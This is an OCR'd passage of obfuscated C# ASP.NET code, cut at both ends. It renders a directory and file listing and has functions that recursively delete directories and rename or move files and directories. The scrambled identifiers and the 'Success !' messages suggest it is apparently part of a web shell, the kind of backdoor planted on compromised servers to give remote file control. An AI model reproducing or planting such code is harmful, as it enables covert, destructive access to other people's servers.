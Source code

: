 }
if(i==3)
{
lGV.ColumnSpan=4;
lGV.Style.Add("text-align","right");
lGV.Text=vLlH+" directories/ "+aYRwo+" files";
}
oWam.Cells.Add(lGV);
}
UGzP.Rows.Add(oWam);
}
catch(Exception error)
{
xseuB(error.Message);
}
}
public string OKM()
{
TdgGU++;
if(TdgGU % 2==0)
{
return "alt1";
}
else
{
return "alt2";
}
}
public void kRXgt(string qcKu)
{
try
{
Directory.Delete(qcKu,true);
xseuB("Directory delete new success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
krIR(Directory.GetParent(qcKu).ToString());
}
public void dAJTD(string sdir,string ddir)
{
try
{
Directory.Move(sdir,ddir);
xseuB("Directory Renamed Success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
krIR(AXSbb.Value);
}
public void Tlvz(string sfile,string dfile)
{
try
{
File.Move(sfile,dfile);
xseuB("File Renamed Success !");
}
catch(Exception error)
{
xseuB(error.Message);